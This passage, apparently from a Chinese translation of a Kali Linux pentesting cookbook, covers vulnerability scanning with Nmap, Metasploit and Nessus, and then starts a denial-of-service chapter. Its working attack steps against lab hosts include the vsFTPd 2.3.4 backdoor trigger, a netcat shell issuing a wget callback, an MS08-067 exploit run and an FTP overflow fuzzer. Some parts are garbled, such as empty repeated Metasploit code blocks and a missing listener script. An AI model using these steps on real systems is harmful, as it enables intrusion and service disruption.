local bin = require "bin"
local msrpc = require "msrpc"
local smb = require "smb"
local string = require "string"
local vulns = require "vulns"
local stdnse = require "stdnse"
description = [[
测试目标机器是否受到 ms10-061 打印机池程序身份充漏洞的影响。
该漏洞是震网病毒（Stuxnet worm）利用的四个漏洞之一。该脚本以安全的方式检查漏洞，没有导致远程系统崩溃的可能性，因为这不是一个内存损坏漏洞。为了使检查生效，它需要访问远程系统上的至少一个共享打印机。默认情况下，它尝试使用 LANMAN API 列举打印机，该 API 在某些系统上默认是不可用的。在这种情况下，用户应指定打印机共享名称作为打印脚本参数。要查找打印机共享，可以使用 `smb-enum-shares`。
```

274

*第 5 章*

此外，在某些系统上，访问共享需要有效的凭据，这可以通过 `smb` 库参数——`smbuser` 和 `smbpassword` 来指定。该漏洞的有趣之处在于，在实际被利用之前，必须有多个因素同时满足。首先，系统必须运行涉及的操作系统之一（XP, Server 03 SP2, Vista, Server 08, 或 Windows 7）。其次，它必须缺少 MS10-061 补丁（该补丁修复了代码执行漏洞）。最后，系统上的本地打印共享必须是公开可的。这其中的有趣之处在于，无论系统上是否存在打印机共享，都可以对远程 SMB 打印池服务进行审计，以确定系统是否已打补丁。由于由于，对于什么是漏洞系统存在不同的解释。某些漏洞扫描器会将未补丁的系统识别为漏洞，尽管实际上该漏洞无法被利用。相反，其他漏洞扫描器（如 NSE 脚本）将评估所有条件来判断系统是否存在漏洞。在提供的示例中，被扫描的系统未补丁，但漏洞并未被利用。看以下示例：

```bash
root@KaliLinux:~# nmap -p445 172.16.36.225 --script=smb-vuln-ms10-061
Starting Nmap 6.25 ( http://nmap.org ) at 2014-03-09 04:19 EDT
Nmap scan report for 172.16.36.225
Host is up (0.00036s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)
Host script results:
|_smb-vuln-ms10-061: false
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds
```

在提供的示例中，Nmap 确定系统不存在漏洞，因为它没有远程打印机共享。虽然漏洞无法被利用是事实，但某些人仍会声称漏洞仍然存在，因为系统未打补丁，且当管理员决定从该设备共享打印机时，漏洞就可以被利用。这就是为什么必须评估所有漏洞扫描器的结果，以充分理解其含义。某些扫描器会选择只评估有限的条件，而另一些则更加详尽。

很难说这里的最佳答案是什么。大多数渗透测试人员可能更希望被告知由于环境因素不存在漏洞，这样他们就不必花费大量时间尝试利用一个无法利用的漏洞。相反，系统管理员可能更希望知道系统缺少 MS10-061 补丁，以便确保系统完全安全，即使在现有条件下该漏洞无法被利用。


大多数漏洞扫描器会通过评估多个不同的响应来尝试确定系统是否容易受到特定攻击。在某些情况下，漏洞扫描可能简单到只需与远程服务建立 `TCP` 连接，并通过其自披露的横幅信息（banner）识别已知的漏洞版本。在其他情况下，可能会向远程服务发送一系列复杂的探测和特意构造的请求，以尝试诱导只有易受特定攻击的漏洞的服务所特有的响应。在提供的 NSE 漏洞扫描脚本示例中，如果激活了不安全的参数，漏洞扫描实际上会尝试利用该漏洞。

## 使用 MSF 辅助模块进行漏洞扫描

与 NSE 中提供的漏洞扫描脚本类似，Metasploit 也提供了许多实用的漏洞扫描器。与 `Nmap` 的脚本一样，这些工具的大多数具有很强的针对性，并用于扫描特定的服务。

### 准备工作

要使用 Metasploit 辅助模块进行漏洞分析，你将需要一个通过 `TCP` 或 `UDP` 运行网络服务的系统。在提供的示例中，使用了一个带有 `RDP` 服务的 Windows XP 系统来执行此任务。有关如何设置 Windows 系统的更多信息，请参阅本书第 `1` 章 `入门`（Getting Started）中的 `安装 Windows Server` 教程。

### 如何操作……

有多种方法可以识别 Metasploit 中的漏洞扫描辅助模块。一种有效的方法是浏览到辅助扫描器目录，因为那里是大多数漏洞识别脚本所在的位置。查看以下示例：

```
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/scanner/
```

```bash
mysql# cat mysql_authbypass_hashdump.rb | more
```

```ruby
##
# 此文件是 Metasploit Framework 的一部分，可能受到
# 重新发和商业限制。请查看 Metasploit
# 网站。
```

## 使用 MSF 辅助模块进行漏洞扫描

（此处 Metasploit 框架）

# 此文件是 Metasploit Framework 的一部分，可能受到
# 重新发和商业限制。请查看 Metasploit
# 网站。


```ruby
##
# 此文件是 Metasploit Framework 的一部分，可能受到
# 重新发和商业限制。请查看 Metasploit
# 网站。
```

276

```ruby
##
# 此文件是 Metasploit Framework 的一部分，可能受到
# 重新发和商业限制。请查看 Metasploit
# 网站。
```

277

```ruby
##
# 此文件是 Metasploit Framework 的一部分，可能受到
# 重新发和商业限制。请查看 Metasploit
# 网站。
```

279


大多数漏洞扫描器通过评估多种不同的响应来尝试确定系统是否易易受到特定攻击的影响。在某些情况下，漏洞扫描可能简单到与远程服务建立 `TCP` 连接，并通过自泄露的横幅（banner）识别已知的漏洞版本。在其他情况下，可能需要向远程服务发送一系列复杂的探测和特制的请求，以诱导仅对易受特定攻击影响的服务才会产生的独特响应。在上述示例中，脚本作者可能发现了一种获取独特响应的方法，该响应仅会由已补丁或未补丁的系统生成，然后以此为基础来确定任何给定远程系统的可利用性。

# 使用 Nessus 创建扫描策略

Nessus 是最强大且最全面的漏洞扫描器之一。通过以一个系统或一组系统为目标，Nessus 会自动扫描所有可识别服务上的大量漏洞。在 Nessus 中可以构建扫描策略，以更具细粒度地定义 Nessus 测试的漏洞类型以及执行的扫描类型。本食谱将介绍如何在 Nessus 中配置独特的扫描策略。

### 准备工作

要在 Nessus 中配置扫描策略，必须首先在 Kali Linux 渗透测试平台上安装一个可运行的 Nessus 副本。因为 Nessus 是一款授权产品，它不会默认安装在 Kali 中。有关如何在 Kali 中安装 Nessus 的更多信息，请参阅`第 1 章，入门`中的`在 Kali Linux 上安装 Nessus` 食谱。

### 如何操作……

要在 Nessus 中配置新的扫描策略，你首先需要访问 `https://localhost:8834` 或 `https://127.0.0.1:8834` 上的 Nessus Web 界面。或者，如果你不是从运行 Nessus 的同一系统访问 Web 界面，则应指定相应的 IP 地址或主机名。一旦 Web 界面加载，你需要使用安装过程中配置的帐户或安装后创建的其他帐户登录。登录后，选择页面顶部的 `Policies`（策略）选项卡。如果没有配置其他策略，你将看到一个空列表和一个显示 `New Policy`（新建策略）的按钮。选择该按钮开始构建你的第一个扫描策略。

点击 `New Policy` 后，将弹出 `Policy Wizards`（策略向导）屏幕，其中包含许多预配置的扫描模板，用于加速过程。如下截图所示，每个模板都包含一个名称以及其预期功能的简要描述：

在大多数情况下，这些预配置扫描配置中至少有一个与你尝试实现的目标相似。所有中最常用的可能是 `Basic Network Scan`（基本网络扫描）。请记住，在选择这些选项之一后，你仍然可以修改现有配置的每个细节。它们只是为了让你更快地上手。或者，如果你不想使用任何现有模板，可以向下滚动并选择 `Advanced Policy`（高级策略）选项，这将允许你从零开始。

如果你选择了任何一个预配置模板，你将通过一个快速的三步过程来完成你的扫描配置。该过程总结如下步骤中：

1. **第 1 步**允许你配置基本细节，包括配置名称、描述和可见性（公共或私有）。公共配置对所有 Nessus 用户可见，而私有配置仅对创建它的用户可见。
2. **第 2 步**将询问扫描是内部还是外部的。外部扫描将针对公共访问的主机执行，这些主机通常位于企业网络的 `DMZ`（脱敏区）。外部扫描不需要你在同一网络中，但可以通过互联网进行。或者，内部扫描从网络内部进行，并直接访问扫描目标的 `LAN`（局域网）。
3. **第 3 步**是最后一步，请求扫描设备的身份凭据，使用 `SSH` 或 `Windows` 身份验证。完成后，可以在访问 `Profiles`（配置）选项卡时在先前的空列表中看到新配置。

这种方法可以快速方便地创建新的扫描配置，但对所测试的漏洞和执行的扫描类型没有足够的控制。要修改更详细的配置，点击新创建的策略名称，然后点击 `Advanced Mode`（高级模式）链接。此配置模式下的选项非常全面且具体。屏幕左侧可以访问四个不同的菜单，包括以下内容：

- **General Settings（常规设置）**：此菜单提供基本配置、定义如何执行发现和服务枚举的详细端口扫描选项，以及定义有关速度、节流、并行等等策略的性能选项。
- **Credentials（凭据）**：此菜单允许配置 `Windows` 凭据、`SSH`、`Kerberos` 甚至一些明文协议选项（不高度建议）。
- **Plugins（插件）**：此菜单对 Nessus 插件提供极度细粒度的控制。`Plugins` 是 Nessus 中用于执行特定审计或漏洞检查的术语。你可以根据功能类型启用或禁用审计组，甚至可以逐个操作特定插件。
- **Preferences（偏好设置）**：此菜单涵盖了 Nessus 所有更晦晦的操作函数的配置，例如 `HTTP` 身份验证、暴力破解设置和数据库交互。

### 工作原理……

扫描策略定义了 Nessus 用于定义如何运行扫描的值。这些扫描策略可以简单到只需完成简单扫描向导设置所需的三个步骤，也可以复杂到定义每个独特的插件并应用自定义的身份验证和操作配置的程度。

# 使用 Nessus 进行漏洞扫描

Nessus 是可用最强大且最全面的漏洞扫描器之一。通过以一个系统或一组系统为目标，Nessus 会自动扫描所有可识别服务上的大量漏洞。一旦配置了扫描策略来定义 Nessus 扫描器的配置，就可以使用扫描策略对远程目标执行扫描进行评估。本食谱将介绍如何使用 Nessus 进行漏洞扫描。

### 准备工作

要使用 Nessus 进行漏洞扫描，必须首先在 Kali Linux 渗透测试平台上安装一个可运行的 Nessus 副本。因为 Nessus 是一款授权产品，它不会默认安装在 Kali 中。有关如何在 Kali 中安装 Nessus 的更多信息，请参阅`第 1 章，入门`中的`在 Kali Linux 上安装 Nessus` 食谱。此外，在用 Nessus 扫描之前，至少需要创建一个扫描策略。有关在 Nessus 中创建扫描策略的更多信息，请参阅前面的食谱。

### 如何操作……

要开始 Nessus 中的一个新扫描，你需要确保 `Scans`（扫描）选项卡是


在屏幕顶部选择。如果过去没有运行过扫描，将在屏幕中心生成一个空列表。要执行首次扫描，你需要点击屏幕左侧的蓝色“New Scan”（新扫描）按钮，如下截图所示：这需要一些基础配置信息。系统会提示你输入一系列字段，包括 Name（名称）、Policy（策略）、Folder（文件夹）和 Targets（目标）。`Name` 字段仅被用作唯一标识符，用以将扫描结果与其他扫描结果区分开来。如果你正在执行大量扫描，使用非常具体的扫描名称将会有帮助。第二个字段真正定义了扫描的所有细节。该字段允许你选择将使用什么扫描策略。如果你不熟悉扫描策略的工作原理，请参考本书中前面的方案。登录用户创建的任何公共或私有扫描策略都应该显示在 `Policy` 下拉菜单中。`Folder` 字段定义了扫描结果放在哪个文件夹。当你需要筛选大量的扫描结果时，通过文件夹组织扫描很有帮助。可以通过点击主 Scans 菜单中的 `New Folder`新文件夹）来创建新的扫描文件夹。最后一个字段是 `Targets`。该字段显示了如何定义扫描哪些系统。在这里，你可以输入单个主机 IP 地址、IP 地址列表、顺序 IP 地址范围、CIDR 范围或 IP 范围列表。或者，你也可以使用主机名，假设扫描器能够通过 DNS 将其正确解析为 IP 地址。最后，还有一个选项可以上传包含上述任何格式目标列表的文本文件，如下所示：

284





*第 5 章*

配置扫描后，可以使用屏幕底部的 `Launch`（启动）按钮执行。这将立即将扫描添加到扫描列表中，并可以实时查看结果，如下截图所示：

285





*漏洞扫描*

即使在扫描运行期间，你也可以点击扫描名称并在漏洞被识别时开始查看它们。使用颜色编码可以快速方便地识别漏洞的数量及其严重程度，如下截图所示：在点击 "Example scan"（示例扫描）后，我们可以看到正在扫描的两个主机。

第一个表示扫描已完成，第二个主机的完成率为 2%。`Vulnerabilities` 列中的条形图显示了与每个指定主机相关的漏洞数量。或者，你可以点击屏幕顶部的 `Vulnerabilities` 链接，按发现的漏洞组织查找结果，然后按识别该漏洞的主机数量排序。在屏幕右侧，我们可以看到一个类似的饼图，但这个对应于所有扫描主机，如下截图所示：

286





*第 5 章*

该饼图还清晰地定义了每种颜色的含义，范围从严重漏洞到信息级详情。通过选择任何特定主机 IP 地址的链接，你可以查看该主机识别出的特定漏洞：

此漏洞列表标识了插件名称（plugin name），它通常提供了发现结果的简要描述和严重程度。作为渗透测试人员，如果你寻求在目标系统上实现远程代码执行，那么严重和高危漏洞通常是有价值的。通过点击任何一个特定的漏洞，你可以获得关于该漏洞的大量细节，如下截图所示：

287

*漏洞扫描*

除了描述和补丁信息外，此页面还将提供进一步研究的替代来源，最重要的是（对于渗透测试人员而言）揭示是否存在利用程序（exploit）。此页面通常还会指示可用的利用程序是公共利用程序，还是存在 Metasploit、CANVAS 或 Core Impact 等漏洞利用框架中。

### 工作原理……

大多数漏洞扫描器通过评估许多不同的响应来运行，尝试确定系统是否容易受到特定攻击。在某些情况下，漏洞扫描可能简单到与远程服务建立 TCP 连接，并通过自披露的横幅（banner）识别已知漏洞版本。在其他情况下，可能会向远程服务发送一系列复杂的探测和特意构造的请求，尝试获取易受特定攻击的服务的所特有的响应。Nessus 将大量测试组合在一起，尝试为给定目标生成完整的攻击面图谱。

## 使用 Nessuscmd 进行命令行扫描

`Nessuscmd` 是 Nessus 中的一个命令行实用。如果你希望将 Nessus 插件扫描集成到脚本中，或重新评估之前识别的漏洞，`Nuscmd` 将非常有用。

### 准备工作

若要使用 `Nuscmd` 进行漏洞扫描，必须先在 Kali Linux 渗透测试平台上安装一个可运行的 Nessus。由于 Nessus 是一项授权产品，因此 Kali 默认不安装它。有关如何在 Kali 中安装 Nessus 的更多信息，请参阅第 1 章《入门》中的 *在 Kali Linux 上安装 Nessus* 方案。

### 如何操作……

要开始，你需要切换到包含 `nessuscmd` 脚本的目录。

然后，在不提供任何参数的情况下执行脚本，你可以查看输出，其中包含了正确的用法和可用选项如下：

```
root@KaliLinux:~# cd /opt/nessus/bin/
root@KaliLinux:/opt/nessus/bin# ./nessuscmd
Error - no target specified
nessuscmd (Nessus) 5.2.5 [build N25109]
Copyright (C) 1998 - 2014 Tenable Network Security, Inc
```

288

*第 5 章*

**用法：**

```
nessuscmd <option> target...
```

要使用已知的 Nessus 插件 ID 对远程主机执行 `nessuscmd` 扫描，你必须使用 `-i` 参数并提供所需的插件 ID 值。为了演示这一点，使用著名的 MS08-067 漏洞的插件 ID 执行了如下扫描：
```
root@KaliLinux:/opt/nessus/bin# ./nessuscmd -i 34477 172.16.36.135
Starting nessuscmd 5.2.5
Scanning '172.16.36.135'...
+ Host 172.16.36.135 is up
```

第一次扫描尝试是针对一个不受指定插件漏洞影响的主机执行的。输出显示主机在线，但没有提供额外输出。或者，如果系统存在漏洞，将返回专门对应于插件的输出：

```
root@KaliLinux:/opt/nessus/bin# ./nessuscmd -i 34477 172.16.36.225
Starting nessuscmd 5.2.5
Scanning '172.16.36.225'...
+ Results found on 172.16.36.225 :
- microsoft-ds (445/tcp)
[!] Plugin ID 34477
Synopsis:
由于 'Server' 服务中的缺陷，可以在远程主机上执行任意代码。
Description:
远程主机存在 'Server' 服务缓冲区溢出漏洞，可能允许攻击者以 'System' 权限在远程主机上执行任意代码。
See also :
http://technet.microsoft.com/en-us/security/bulletin/ms08-067
Solution:
Microsoft 已为 Windows 2000、XP、2003、Vista 和 2008 发布了一系列补丁。
Risk factor:
Critical / CVSS Base Score : 10.0
```

289

*漏洞扫描*


| (CVSS2#AV:N/AC:L/Au:N/C:C/I:C/A:C) |
| CVSS 时间评分 : 8.7 |
| (CVSS2#E:H/RL:OF/RC:C) |
| 公共利用可用 : true |

### 工作原理……

大多数漏洞扫描器通过评估多个不同的响应来操作，尝试确定系统是否容易受到特定攻击。在某些情况下，漏洞扫描可能仅仅是与远程服务建立 `TCP` 连接，并通过自我披露的 banner（横幅）识别已知的漏洞版本。在其他情况下，可能会向远程服务发送一系列复杂的探测和特殊构造的请求，以尝试获取易受特定攻击的服务的所特有的响应。`Nessuscmd` 在给定特定插件 ID 的情况下，会执行与常规 Nessus 界面执行的完全相同的测试。唯一的区别在于执行漏洞扫描的方式。

## 使用 HTTP 交互验证漏洞

作为渗透测试员，任何漏洞利用的最佳结果都是实现远程代码执行。然而，在某些情况下，我们可能只想确定远程代码执行漏洞是否可以被利用，但不想实际执行整个利用和后利用过程。实现此目标的方法是创建一个 Web 服务器来记录交互，并使用给定的漏洞执行代码，导致远程主机与 Web 服务器进行交互。本配方将演示如何编写自定义脚本，通过 HTTP 流量验证远程代码执行漏洞。

### 准备工作

要使用 HTTP 交互验证漏洞，你需要一个运行带有远程代码执行漏洞软件的系统。此外，本节将要求使用 `VIM` 或 `Nano` 等文本编辑器向文件系统写入脚本。

有关编写脚本的更多信息，请参考本书 `第 1 章`、`入门` 中的“`使用文本编辑器 (VIM 和 Nano)`”配方。

### 如何操作……

在实际利用给定漏洞之前，我们必须先部署一个会记录与其交互的 Web 服务器。这可以通过如下简单的 Python 脚本来实现：

```python
#!/usr/bin/python

import socket

print "Awaiting connection...\n"

httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
httprecv.bind(("0.0.0.0",8000))
httprecv.listen(2)
(client, ( ip,sock)) = httprecv.accept()
print "Received connection from : ", ip

data = client.recv(4096)
print str(data)

client.close()
httprecv.close()
```

提供的 Python 脚本使用 `socket` 库生成一个监听在所有本地接口 `TCP` 端口 `8000` 的 Web 服务器。在接收到来自客户端的连接后，脚本将返回客户端的 IP 地址和发送的请求。要使用此脚本验证漏洞，我们需要执行代码导致远程系统与托管的 Web 服务交互。但在执行此操作之前，我们需要使用以下命令启动脚本：

`root@KaliLinux:~# ./httprecv.py`

`Awaiting connection...`

接下来，我们需要利用一个可以产生远程代码执行的漏洞。通过查看 `Metasploitable2` 盒子的 Nessus 扫描结果，我们可以看到运行的 `FTP` 服务有一个后门，可以通过提供带有笑脸符号的用户名来触发。这不是开玩笑……这确实包含在生产环境的 `FTP` 服务中。要尝试利用此漏洞，我们首先按照如下方式使用适当的用户名连接服务：

`root@KaliLinux:~# ftp 172.16.36.135 21`

`Connected to 172.16.36.135.`
`220 (vsFTPd 2.3.4)`
`Name (172.16.36.135:root): Hutch:)`
`331 Please specify the password.`
`Password:`
`^C`
`421 Service not available, remote server has closed connection`

在尝试使用包含笑脸的用户名连接后，远程主机的 `TCP` 端口 `6200` 应该打开了一个后门。我们不需要输入密码。相反，可以使用 `Ctrl` + `C` 退出 `FTP` 客户端，然后可以使用 `Netcat` 连接到打开的后门，如下：

`root@KaliLinux:~# nc 172.16.36.135 6200`
`wget http://172.16.36.224:8000`
`--04:18:18-- http://172.16.36.224:8000/**`
`=> ìndex.html'`
`Connecting to 172.16.36.224:8000... connected.`
`HTTP request sent, awaiting response... No data received.`
`Retrying.`
`--04:18:19-- http://172.16.36.224:8000/**`
`(try: 2) => ìndex.html'`
`Connecting to 172.16.36.224:8000... failed: Connection refused.`
`^C`

在与打开的端口建立 `TCP` 连接后，我们可以使用脚本来验证是否可以执行远程代码执行。为了这一点，我们尝试使用 `wget`  HTTP 检测服务器的 URL。在尝试执行此代码后，我们可以通过查看脚本输出来验证是否收 HTTP 请求：

`root@KaliLinux:~# ./httprecv.py`
`Received connection from : 172.16.36.135`
`GET / HTTP/1.0`
`User-Agent: Wget/1.10.2`
`Accept: */*`
`Host: 172.16.36.224:8000`
`Connection: Keep-Alive`

### 工作原理……

该脚本通过识别来自远程主机的尝试连接来工作。通过执行代码导致远程系统连接回我们监听的服务器，就可以验证利用特定漏洞是否可以远程代码执行。如果远程服务器上没有安装 `wget` 或 `curl`，则可能需要采用其他方法。


接下来，我们需要利用一个可以实现远程代码执行的漏洞。通过查看 Windows XP 盒的 Nessus 扫描结果，我们可以看到系统容易受到 `MS08-067` 漏洞的影响。为了验证这一点，我们将使用一个向扫描系统执行 `ping` 命令的负载 来利用该漏洞，具体如下：

```
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/exec
PAYLOAD => windows/exec
msf exploit(ms08_067_netapi) > set RHOST 172.16.36.225
RHOST => 172.16.36.225
msf exploit(ms08_067_netapi) > set CMD cmd /c ping 172.16.36.224 -n 1
CMD => cmd /c ping 172.16.36.224 -n 1
msf exploit(ms08_067_netapi) > exploit
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
```

Metasploit 中的该利用被配置为使用 `windows/exec` 负载，该负载会在受攻击的系统中执行代码。此负载被配置为向我们的扫描系统发送单个 ICMP 回显请求。执行后，我们可以通过参考仍在监听的原始脚本来确认利用成功：

```
root@KaliLinux:~# ./listener.py
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop listening
172.16.36.225 is exploitable
```

### 工作原理……

该脚本通过监听来自远程主机的入站 ICMP 流量来工作。通过执行导致远程系统向我们的监听服务器发送回显请求的代码，可以验证通过利用特定漏洞来实现远程代码执行的可行性。

# 拒绝服务

当你在互联网上公开访问资源，甚至在内部网络上对小型社区开放资源时，考虑拒绝服务（DoS）攻击的风险是非常重要的。DoS 攻击可能会非常令人沮丧，而且有时代价高昂。最糟糕的是，这些威胁通常是最难缓解的威胁。为了能够正确评估对你的网络和信息资源的威胁，必须理解存在的 DoS 威胁类型及其相关的趋势。本章将包含以下评估 DoS 威胁的配方：

- 用于识别缓冲区溢出的 Fuzz 测试
- 远程 FTP 服务缓冲区溢出 DoS
- Smurf DoS 攻击
- DNS 放大 DoS 攻击
- SNMP 放大 DoS 攻击
- NTP 放大 DoS 攻击
- SYN 泛洪 DoS 攻击
- Sock 压力 DoS 攻击
- 使用 Nmap NSE 进行 DoS
- 使用 Metasploit 进行 DoS
- 使用 exploit database 进行 DoS 

在逐一处理上述每个配方之前，我们应该处理一些底层原理，并理解它们与本章将讨论的 DoS 攻击之间的关系。我们在后续章节中讨论的 DoS 攻击可以归类为缓冲区溢出、流量放大攻击或资源消耗攻击。我们将按顺序处理与此类攻击工作方式相关的通用原理。

## 拒绝服务

缓冲区溢出是一种编码漏洞，可能导致应用程序、服务或整个底层操作系统的拒绝服务。通常来说，缓冲区溢出能够导致拒绝服务，因为可能导致任意数据被加载到内存的非预期段中。这会破坏执行流并导致服务或操作系统的崩溃。

流量放大 DoS 攻击通过消耗特定服务器、设备或网络的可用网络带宽来产生 DoS 状态。流量放大攻击成功需要两个条件。这些条件如下：

1. **重定向（Redirection）**：攻击者必须能够请求可以重定向到受害者的响应。这通常通过 IP 伪造来实现。由于 UDP 不是一种面向连接的协议，大多数使用 UDP 作为关联传输层协议的应用层协议都可以通过伪造请求将服务响应重定向到其他主机。
2. **放大（Amplification）**：重定向的响应必须大于请求该响应的请求。响应字节大小与请求字节大小的比例越大，攻击越成功。

例如，如果发现一个 UDP 服务生成的响应比其关联请求大 10 倍，攻击者可以利用该服务，通过向漏洞服务以最高可能的传输速率发送伪造请求，可能产生比其他情况下多 10 倍的攻击流量。

资源消耗攻击是指产生一种状态的攻击，即托管服务器或设备的本地资源被消耗到以至于这些资源无法执行其预期的运行功能。这种攻击可以针对各种本地资源，包括内存、处理器性能、磁盘空间或并发网络连接的持续性。

## Fuzz 测试识别缓冲区溢出

识别缓冲区溢出漏洞最有效的技术之一是 Fuzz 测试（模糊测试）。Fuzz 是通过向函数传递构造或随机数据来测试缓冲区溢出漏洞实践。在适当的情况下，输入数据可能会逃离其指定的缓冲区并流入相邻的寄存器或内存段。这一过程将破坏执行流并导致应用程序或系统崩溃。

### 准备工作

要执行 Fuzz 测试，你需要一个运行基于 TCP 或 UDP 网络服务的系统。在提供的示例中，使用一个带有 FTP 服务的 Windows XP 系统执行此任务。有关设置 Windows 系统的更多信息，请参考第 1 章中的 `Installing Windows Server` 配方。此外，此部分需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统编写脚本。关于编写脚本的更多信息，请参考第 1 章中的 `Using text editors (VIM and Nano)` 配方。

### 如何操作……

Python 是一种极佳的脚本语言，可用于有效开发自定义的 Fuzz 工具。在评估 TCP 服务时，`socket` 函数在简化执行完整三次握手序列和连接到监听服务端口的过程中非常有用。任何 Fuzz 脚本的首要目标是将数据作为输入发送给任何给定函数并评估结果。我开发了一个可以用于 Fuzz FTP 服务认证后函数的脚本，如下所示：

```python#!/usr/bin/python
import socket
import sys

if len(sys.argv) != 6:
    print "Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Payload] [Interval] [Maximum]"
    print "Example - ./ftp_fuzz.py 10.0.0.5 21 A 100 1000"
    print "Example 将使用一系列负载对定义的 FTP 服务进行 Fuzz，包括 100 个 'A'、200 个 'A' 等……最多 1000 个"
    sys.exit()

target = str(sys.argv[1])
port = int(sys.argv[2])
char = str(sys.argv[3])
i = int(sys.argv[4])
interval = int(sys.argv[4])
max = int(sys.argv[5])

user = raw_input(str("Enter ftp username: "))
passwd = raw_input(str("Enter ftp password: "))
command = raw_input(str("Enter FTP command to fuzz: "))
```


# 拒绝服务攻击

```python
while i <= max:
    try:
        payload = command + " " + (char * i)
        print "Sending " + str(i) + " instances of payload (" + char + ") to target"
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((target,port))
        s.recv(1024)
        s.send('USER ' + user + '\r\n')
        s.recv(1024)
        s.send('PASS ' + passwd + '\r\n')
        s.recv(1024)
        s.send(payload + '\r\n')
        s.send('QUIT\r\n')
        s.recv(1024)
        s.close()
        i = i + interval
    except:
        print "\nUnable to send...Server may have crashed"
        sys.exit()
    print "\nThere is no indication that the server has crashed"
```

脚本的第一部分定义了 Python 解释器的位置并导入了所需的库。第二部分评估了提供的参数数量，以确保其与脚本的正确用法一致。第三部分定义了在整个执行过程中将使用的变量。其中几个变量的值是从执行脚本时传递给脚本的系统参数获取的。

其余变量通过接受脚本用户的输入来定义。最后，脚本的剩余部分定义了模糊（fuzzing）过程。我们如下所示执行 `ftp_fuzz.py` 文件：

```bash
root@KaliLinux:~# ./ftp_fuzz.py
Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Payload] [Interval] [Maximum]
Example - ./ftp_fuzz.py 10.0.0.5 21 A 100 1000
示例将使用一系列有效负载对定义的 FTP 服务进行模糊，包括 100 个 'A'、200 个 'A' 等……直到最大 1000 个
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 A 100 1000
Enter ftp username: anonymous
Enter ftp password: user@mail.com
Enter FTP command to fuzz: MKD
```

Sending 100 instances of payload (A) to target
Sending 200 instances of payload (A) to target
Sending 300 instances of payload (A) to target
Sending 400 instances of payload (A) to target
Sending 500 instances of payload (A) to target
Sending 600 instances of payload (A) to target
Sending 700 instances of payload (A) to target
Sending 800 instances of payload (A) to target
Sending 900 instances of payload (A) to target
Sending 1000 instances of payload (A) to target
There is no indication that the server has crashed

